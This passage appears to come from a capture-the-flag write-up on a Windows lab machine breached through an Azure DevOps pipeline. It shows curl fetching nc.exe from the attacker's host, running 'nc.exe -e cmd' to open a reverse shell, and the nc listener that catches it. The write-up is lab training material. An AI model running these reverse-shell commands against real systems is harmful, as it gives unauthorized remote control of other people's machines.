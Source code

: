 ![Description](/assets/img/Pasted image 20220707122027.png)

In order to create our own pipeline we need to click on:

![Description](/assets/img/Pasted image 20220707122039.png)

This must be done in a short period of time, otherwise the service could be broken and we need to restart again, after several tries, we finally get the pipeline queued and executed correctly:

![Description](/assets/img/Pasted image 20220707122052.png)
After that, we’ll be able to see that the webshell is now available:

![Description](/assets/img/Pasted image 20220707122102.png)

Little tip is to use “2>&1” flag to retrieve errors while using commands, useful to see if curl/wget are installed:

![Description](/assets/img/Pasted image 20220707122113.png)
As curl is enabled we can retrieve a nc.exe and get a reverse shell towards our machine:

```bash
curl <http://10.10.16.5:8081/nc.exe> -o C:\\Windows\\Temp\\privesc\\nc.exe
```

![Description](/assets/img/Pasted image 20220707122127.png)

After executing the previos message we need to start a python server:

```bash
sudo python3 -m http.server 8081
```

Then we’ll see that the file is within the choosen path, now is time to execute the reverse shell:

```bash
C:\\Windows\\Temp\\privesc\\nc.exe -e cmd 10.10.16.5 443
```

![Description](/assets/img/Pasted image 20220707122144.png)

Do not forget to start our listener with rlwrap to get a more stable shell:

```bash
sudo rlwrap nc -lvnp 443
Connection from 10.10.10.203:51133
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\\windows\\system32\\inetsrv>
```

### User Privilege Escalation

Something to notice while creating the .aspx file is where is it being stored:

![Description](/assets/img/Pasted image 20220707122159.png)


[^azure-devops-enum]: Azure Devops Enumeration
[^web-fuzzing]: Web Fuzzing
[^subversion]: Subversion Enumeration